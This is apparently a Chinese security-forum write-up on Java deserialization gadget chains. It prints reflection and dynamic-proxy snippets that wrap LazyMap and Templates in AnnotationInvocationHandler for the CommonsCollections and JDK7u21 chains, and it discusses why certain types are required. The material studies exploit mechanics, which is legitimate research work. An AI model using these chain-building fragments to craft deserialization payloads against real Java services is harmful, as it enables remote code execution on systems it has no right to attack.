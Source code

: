 在利用 invoke 进入 LazyMap.get 的利用链里，我们直接又套了一层 InvocationHandler ，利用 AnnotationInvocationHandler 作为入口

```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, lazyMap);

        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```

作为 AnnotationInvocationHandler 的 memberValues 参数

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9cfbb90145ef458d57057f2dbd1cb2a11d1b8f81.png)

然后我们的 Map 代理类就会在 entrySet 的这一处调用里实现代理的拦截，进入我们设置好的调用处理器的 invoke 方法

### 利用位置

这里是 JDK7u21 中的代理的设置，最后调用到的是 equals 方法，Object 类中存在 equals 方法，所以我们这里解决兼容问题就好了，这里将 proxy 转化为了 templates 类型

```java
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
```

但是因为我发现了之类的 equals 方法实际上是来自于 Object.class 的，所以我想了一下，这里好像不用是 Templates 类型才对

```java
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Map proxy = (Map) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Map.class}, tempHandler);
```

但是 AnnotationInvocationHandler 的 memberValues 参数必须要是 Templates.class ，因为这里和我们后续的利用是相关的，但是这里我很不理解，为什么这个时候就不用考虑不是注解类报错的事情了？

版本！

